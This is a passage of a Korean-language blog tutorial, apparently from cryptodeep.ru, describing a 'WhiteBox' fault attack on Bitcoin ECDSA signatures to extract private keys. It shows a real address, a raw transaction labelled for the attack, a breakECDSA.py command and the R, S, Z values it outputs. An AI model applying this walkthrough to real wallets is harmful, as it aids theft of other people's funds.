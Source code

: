 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-3-1024x202.png" alt="화이트박스 공격" class="wp-image-1529"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>공격을 위한 RawTX 준비</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/12bXHGbbWeqyixHpNjeSmq271ennbLRXh9" target="_blank" rel="noreferrer noopener">12bXHGbbWeqyixHpNjeSmq271ennbLRXh9</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/ee10964f25b1888e63726faaf8b8d67779dccebdfdd9b45225fce54d0aa1b80f
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-35-1024x144.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1624"/></figure>



<pre class="wp-block-code"><code>RawTX = 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-36-1024x303.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1626"/></figure>



<pre class="wp-block-code"><code>R = 0xdd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc8
S = 0x6a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e42103
Z = 0xe3836edb5789a3be19cb8b0c9bc8cb1ae2fd58c30d745ae34ceac35c20c0c21c</code></pre>
